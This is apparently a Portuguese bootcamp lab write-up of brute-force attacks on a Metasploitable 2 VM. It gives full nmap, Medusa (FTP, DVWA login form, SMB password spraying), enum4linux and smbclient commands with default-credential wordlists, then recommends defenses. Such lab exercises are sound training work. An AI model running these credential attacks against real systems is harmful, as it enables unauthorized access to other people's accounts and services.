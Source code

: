 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2

Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.1.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)
IP Kali Linux: 192.168.1.4
IP Metasploitable 2: 192.168.1.5

ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs 
Comando: ping -c 4 192.168.1.5 

1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95
Objetivo: identificar porta FTP aberta 
Comando: nmap -sV -p 21,22,80,445,139 192.168.1.5

Portas abertas: 
- 21 - serviço: FTP - versão: vsftpd 2.3.4 
- 22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- 80 - serviço: HTTP - versão: Apach httpd 2.2.8
- 139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 
- 445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 

Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 

2 etapa: ataque brute force | ferramenta usada: Medusa v2.3

Criação de wordlists:
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 

Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt

Comando brute force: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M ftp -t 10
Resultado - usuario: msfadmin | senha: msfadmin

- Brute force em formulário de login em sistema web (DVWA) -

Comando:
medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 10

Resultado - usuario: admin | senha: password 

- Ataque em cadeia, enumeração smb + password spraying -

Enumeração de usuários usando Enum4Linux:
Comando: enum4linux -a 192.168.1.5 | tee enum4_output.txt 

Password spraying usando Medusa:
Comando: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50

Resultado - usuario: msfadmin | senha: msfadmin 

Verificando acesso ao smb:
Comando: smbclient -L //192.168.1.5 -U msfadmin 

- Vulnerabilidades: senhas fracas e iguais ao campo user
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede
- Recomendações para criação de senhas:
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.





